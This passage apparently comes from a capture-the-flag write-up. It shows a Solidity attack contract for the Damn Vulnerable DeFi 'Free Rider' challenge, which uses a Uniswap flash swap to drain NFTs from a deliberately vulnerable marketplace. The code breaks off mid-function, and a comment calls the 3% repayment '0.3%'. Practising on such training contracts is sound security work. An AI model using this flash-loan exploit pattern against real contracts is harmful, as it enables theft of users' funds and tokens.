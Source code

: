 ### ****************************Attacker Contract:****************************

```solidity
//SPDX-License-Identifier:UNLICENSED
pragma solidity ^0.8.0;

import "@uniswap/v2-core/contracts/interfaces/IUniswapV2Pair.sol";
import "@uniswap/v2-core/contracts/interfaces/IUniswapV2Callee.sol";
import "./FreeRiderNFTMarketplace.sol";
import "solmate/src/tokens/WETH.sol";
import "./FreeRiderRecovery.sol";
import "../DamnValuableNFT.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

contract AttackContract is IUniswapV2Callee,IERC721Receiver{

    IUniswapV2Pair public pair;
    FreeRiderNFTMarketplace public marketplace;
    WETH public wEth;
    FreeRiderRecovery public recovery;
    DamnValuableNFT public nft;
    address public player;
    uint256 public amount = 15 ether;
    uint256[] public tokenIds = [0,1,2,3,4,5];

    constructor(address _pair, address payable _marketplace,address payable _wEth, address _recovery, address _nft, address _player)payable{

        pair = IUniswapV2Pair(_pair);
        marketplace = FreeRiderNFTMarketplace(_marketplace);
        wEth = WETH(_wEth);
        recovery = FreeRiderRecovery(_recovery);
        nft = DamnValuableNFT(_nft);
        player = _player;

    }

    function flashSwap() public{
        bytes memory data = abi.encode(amount);

        pair.swap(amount,0,address(this),data);
        
    }

    function uniswapV2Call(address, uint amount0, uint, bytes calldata) external {

        wEth.withdraw(amount0);
        
        marketplace.buyMany{value: amount0}(tokenIds);// arguement is array of tokenIds

        uint tokenFee = (amount0*103)/100; // adding 0.3% fees 
        wEth.deposit{value: tokenFee}();// we can also pass 15.1 ether instead of tokenFee cuz its the same

       wEth.transfer(msg.sender,tokenFee); 
    }

    function transferNft(uint tokenId)public{
        bytes memory data = abi.encode(player);// this is done because in the function `function onERC721Received()` it fetches address of *reciepent* by decoding the data.
        
        nft.safeTransferFrom(address(this),address(recovery),tokenId,data);
```